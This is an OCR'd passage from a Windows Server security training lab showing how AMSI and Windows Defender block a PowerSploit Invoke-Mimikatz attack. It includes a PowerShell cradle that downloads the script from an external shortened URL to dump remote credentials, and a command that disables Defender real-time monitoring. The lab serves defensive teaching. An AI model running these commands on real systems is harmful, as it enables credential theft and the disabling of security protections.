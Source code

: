

#### Task 3: Attempt a remote Windows PowerShell exploit on a Window Server 2016 computer

  > **Note:**  Now you will attempt the same exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the **Invoke-Mimikatz** cmdlet on a remote Windows Server 2016 computer. **Invoke-Mimikatz** supports targeting remote computers via Windows PowerShell Remoting.

1.   Sign in to the LON-SVR1 Windows Server 2016 lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Administrator**
  -   PASSWORD: **Pa55w.rd**

  > **Note:**  You sign in to LON-SVR1 as **ADATUM\\Administrator** in order to observe in the subsequent steps of this task how an attacker can compromise its credentials. In general, you should avoid signing in with accounts that are members of the **Domain Admins** group to domain member computers.

2.   Ensure that you are signed on to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

3.   From the **Administrator: Windows PowerShell** window, run the following (F:\\LabFiles\\Scripts\\Lab1Ex2Task3-01.ps1):

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-SVR1')
```

4.   Note the resulting error message. The attempt to download and execute malicious script is blocked again by Windows Defender. To verify this, switch back to the Event Viewer window and refresh the view of the Windows Defender Operational log.
5.   In the list of events in the Windows Defender Operational log, locate the most recent event ID 1116 with the Warning level and double-click it.
6.   On the General tab of the event properties, scroll down through its description and note that the Detection Source is set to AMSI.

  > **Note:**  As you can see, AMSI in combination with Windows Defender successfully blocked execution of the malicious script. Now you will attempt the same exploit directly from a Windows PowerShell remoting session to LON-SVR1

7.   From the **Administrator: Windows PowerShell** window, run the following:

```
Enter-PSSession –ComputerName LON-SVR1
```

  > **Note:**  This will establish a Windows PowerShell Remoting session to LON-SVR1, as indicated by the [LON-SVR1]: prefix of the Windows PowerShell prompt.

8.   From the **Administrator: Windows PowerShell** window, run the following:

```
Set-MpPreference -DisableRealtimeMonitoring
```
